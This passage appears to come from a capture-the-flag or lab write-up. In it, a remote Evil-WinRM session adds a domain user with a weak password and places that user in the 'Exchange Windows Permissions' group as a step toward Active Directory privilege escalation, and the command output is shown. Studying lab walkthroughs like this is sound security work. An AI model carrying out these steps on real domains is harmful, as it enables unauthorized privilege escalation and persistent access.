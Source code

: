 ```bash
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> net user tester  test@123 /add /domain
The command completed successfully.

*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> net users

User accounts for \\

-------------------------------------------------------------------------------
$331000-VK4ADACQNUCA     Administrator            andy
DefaultAccount           Guest                    HealthMailbox0659cc1
HealthMailbox670628e     HealthMailbox6ded678     HealthMailbox7108a4e
HealthMailbox83d6781     HealthMailbox968e74d     HealthMailboxb01ac64
HealthMailboxc0a90c9     HealthMailboxc3d7722     HealthMailboxfc9daad
HealthMailboxfd87238     krbtgt                   lucinda
mark                     santi                    sebastien
SM_1b41c9286325456bb     SM_1ffab36a2f5f479cb     SM_2c8eef0a09b545acb
SM_681f53d4942840e18     SM_75a538d3025e4db9a     SM_7c96b981967141ebb
SM_9b69f1b9d2cc45549     SM_c75ee099d0a64c91b     SM_ca8c2ed5bdab4dc9b
svc-alfresco             tester                   
The command completed with one or more errors.

```
Then, we will add user tester to the `Exchange Windows Permissions` group.
```bash
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> net group "Exchange Windows Permissions" tester /add
The command completed successfully.

*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> net user tester
User name                    tester
Full Name
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            7/6/2025 8:15:06 AM
Password expires             Never
Password changeable          7/7/2025 8:15:06 AM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   Never

Logon hours allowed          All

Local Group Memberships
Global Group memberships     *Exchange Windows Perm*Domain Users
The command completed successfully.

```
